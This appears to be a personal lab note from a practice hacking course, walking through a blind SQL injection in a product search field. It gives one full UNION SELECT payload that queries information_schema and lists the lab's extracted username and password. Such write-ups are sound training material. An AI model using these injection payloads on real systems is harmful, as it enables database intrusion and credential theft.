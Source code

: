 ![[Pasted image 20250406034038.png]]
- **Search parameter can be injectable, let's see**
- Giving `invalid_product` gives `No Products found`:
	- ![[Pasted image 20250406035253.png]]
- **If injection is successful,** **we should not receive** `No products found`
- ![[Pasted image 20250406035352.png]]
- ==**Works, but it is blind SQL injection**==

# Extracting Details
---
- Number of columns being selected: 4
	- ![[Pasted image 20250406035546.png]]
- Name of database: `peh-labs`
	- ![[Pasted image 20250406041436.png]]
	- ![[Pasted image 20250406041505.png]]

- Name of tables given in `video` for easy manual injection:
	- ![[Pasted image 20250406042149.png]]
- Column names: `username` and `password`
	- `product=invalid_product' UNION SELECT NULL,NULL,NULL,column_name from information_schema.columns where table_name='injection0x03_users' AND table_schema='peh-labs' AND column_name='password' LIMIT 1#`
	- ![[Pasted image 20250406043315.png]]
	- ![[Pasted image 20250406043349.png]]
- Username: `takeshi`
	- ![[Pasted image 20250406044616.png]]
- Password: `onigirigadaisuki`	
	- ![[Pasted image 20250406044803.png]]